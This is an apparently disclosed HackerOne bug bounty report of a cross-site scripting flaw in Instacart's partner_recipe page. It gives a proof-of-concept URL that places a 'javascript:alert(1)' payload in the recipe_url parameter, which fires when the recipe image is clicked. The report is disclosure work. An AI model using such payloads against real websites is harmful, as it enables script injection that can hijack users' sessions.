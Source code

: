 # XSS in instacart.com/store/partner_recipe

## Report Details
- **Report ID**: 196221
- **URL**: https://hackerone.com/reports/196221
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-06T10:03:27.020Z
- **Disclosed**: 2017-05-11T19:10:14.042Z

## Reporter
- **Username**: karel_origin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Please open the following url
```
https://www.instacart.com/store/partner_recipe?recipe_url=javascript:alert(1)&partner_name=&ingredients%5B%5D=apples&ingredients%5B%5D=butter&ingredients%5B%5D=Splenda+Brown+Sugar+Blend&ingredients%5B%5D=cinnamon&ingredients%5B%5D=nutmeg&title=Barb%27s+Fried+Apples+-Diabetic-Low+Fat&description=&image_url=%2Fassets%2Fimg%2Fno-recipe-image.jpg
```

and click on the "Barb's Fried Apples -Diabetic-Low Fat" image to trigger the payload.

The affected parameter is
recipe_url


## Attachments
No attachments
